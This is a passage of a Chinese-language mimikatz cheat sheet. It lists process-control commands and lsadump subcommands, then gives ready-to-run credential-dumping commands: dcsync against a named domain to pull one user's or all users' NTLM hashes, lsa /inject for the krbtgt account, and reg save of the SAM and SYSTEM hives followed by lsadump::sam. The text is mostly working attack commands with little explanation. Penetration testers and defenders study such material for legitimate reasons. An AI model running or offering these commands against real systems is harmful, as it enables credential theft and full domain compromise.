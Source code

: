 #### [process::stop](#toc_processstop)

停止一个进程

#### [process::suspend](#toc_processsuspend)

冻结一个进程

#### [process::resume](#toc_processresume)

从冻结中恢复

#### [process::run notepad](#toc_processrun-notepad)

运行一个程序

#### [process::runp](#toc_processrunp)

以 SYSTEM 权限打开一个新的 mimikatz 窗口

### [Lsadump 模块（读取域控中域成员的 Hash）](#toc_lsadumphash)

```plain
Lsadump::secrets：从 registry 或者 hives 获取保存的密码凭据，可以直接获取明文密码。
Lsadump::cache：获取内存中的密码值。
Lsadump::lsa：从 lsa 服务器获取密码，lsadump::lsa /inject /name:krbtgt。
Lsadump::trust：Ask LSA Server to retrieve Trust Auth Information (normal or patch on the fbackupkeys rpdata。
Lsadump::dcsync：Ask a DC to synchronize an object。
Lsadump::dcshadow：They told me I could be anything I wanted, so I became a domain controller。
Lsadump::setntlm：Ask a server to set a new password/ntlm for one user。
Lsadump::changentlm：Ask a server to set a new password/ntlm for one user。
Lsadump::netsync：Ask a DC to send current and previous NTLM hash of DC/SRV/WKS。
```

#### [lsadump::lsa /patch](#toc_lsadumplsa-patch)

读取所有与用户的哈希

#### [lsadump::dcsync](#toc_lsadumpdcsync)

通过 dcsync，利用目录复制服务（DRS）从 NTDS.DIT 文件中检索密码哈希值，可以在域管权限下执行获取

查看域内指定用户信息，包括 NTLM 哈希等

lsadump::dcsync /domain:nanhu.com /user:nanhu

查看所有域用户

lsadump::dcsync /domain:nanhu.com /all /csv

#### [lsadump::sam](#toc_lsadumpsam)

sam 表获取 Hash

```plain
reg save HKLM\SYSTEM SYSTEM
reg save HKLM\SAM SAM

lsadump::sam /sam:SAM /system:SYSTEM
```
